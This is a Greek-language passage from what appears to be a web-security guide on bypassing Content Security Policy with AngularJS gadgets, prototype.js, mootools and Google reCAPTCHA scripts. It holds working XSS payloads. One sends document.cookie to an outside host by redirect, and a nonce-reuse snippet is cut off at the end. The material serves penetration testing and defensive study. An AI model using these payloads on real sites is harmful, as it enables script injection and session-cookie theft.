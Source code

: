 {% hint style="info" %}
Η ανάρτηση δείχνει ότι μπορείτε **να φορτώσετε** όλες τις **βιβλιοθήκες** από `cdn.cloudflare.com` (ή οποιονδήποτε άλλο επιτρεπόμενο αποθετήριο JS βιβλιοθηκών), να εκτελέσετε όλες τις προστεθείσες συναρτήσεις από κάθε βιβλιοθήκη, και να ελέγξετε **ποιες συναρτήσεις από ποιες βιβλιοθήκες επιστρέφουν το αντικείμενο `window`**.
{% endhint %}
```markup
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
<div ng-app ng-csp>
{{$on.curry.call().alert(1)}}
{{[].empty.call().alert([].empty.call().document.domain)}}
{{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
{{$on.curry.call().alert('xss')}}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
{{[].erase.call().alert('xss')}}
</div>
```
## Εκμετάλλευση XSS στο Angular από το όνομα μιας κλάσης:
```html
<div ng-app>
<strong class="ng-init:constructor.constructor('alert(1)')()">aaa</strong>
</div>
```
#### Κατάχρηση του κώδικα JS του Google reCAPTCHA

Σύμφωνα με [**αυτό το CTF writeup**](https://blog-huli-tw.translate.goog/2023/07/28/google-zer0pts-imaginary-ctf-2023-writeup/?\_x\_tr\_sl=es&\_x\_tr\_tl=en&\_x\_tr\_hl=es&\_x\_tr\_pto=wapp#noteninja-3-solves) μπορείτε να καταχραστείτε το [https://www.google.com/recaptcha/](https://www.google.com/recaptcha/) μέσα σε ένα CSP για να εκτελέσετε αυθαίρετο κώδικα JS παρακάμπτοντας το CSP:
```html
<div
ng-controller="CarouselController as c"
ng-init="c.init()"
>
&#91[c.element.ownerDocument.defaultView.parent.location="http://google.com?"+c.element.ownerDocument.cookie]]
<div carousel><div slides></div></div>

<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>
```
Περισσότερα [**φορτία από αυτήν την ανάλυση**](https://joaxcar.com/blog/2024/02/19/csp-bypass-on-portswigger-net-using-google-script-resources/):
```html
<script src='https://www.google.com/recaptcha/about/js/main.min.js'></script>

<!-- Trigger alert -->
<img src=x ng-on-error='$event.target.ownerDocument.defaultView.alert(1)'>

<!-- Reuse nonce -->
<img src=x ng-on-error='
doc=$event.target.ownerDocument;
a=doc.defaultView.top.document.querySelector("[nonce]");
```